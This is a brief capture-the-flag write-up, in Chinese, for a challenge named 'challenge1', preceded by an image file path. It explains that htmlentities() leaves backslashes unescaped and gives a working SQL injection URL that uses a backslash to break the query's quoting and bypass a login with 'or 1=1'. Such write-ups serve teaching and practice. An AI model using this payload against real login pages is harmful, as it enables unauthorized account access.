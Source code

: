 ### Writeup 
##challenge1:
htmlentities()转义了单引号和双引号，但是忽略了反斜线，所以可以用"\"将原SQL语句中的第二个单引号转义，成功逃逸引号，payload:http://foobar/index.php?username=\&password=%20or%201=1%20limit%201%23
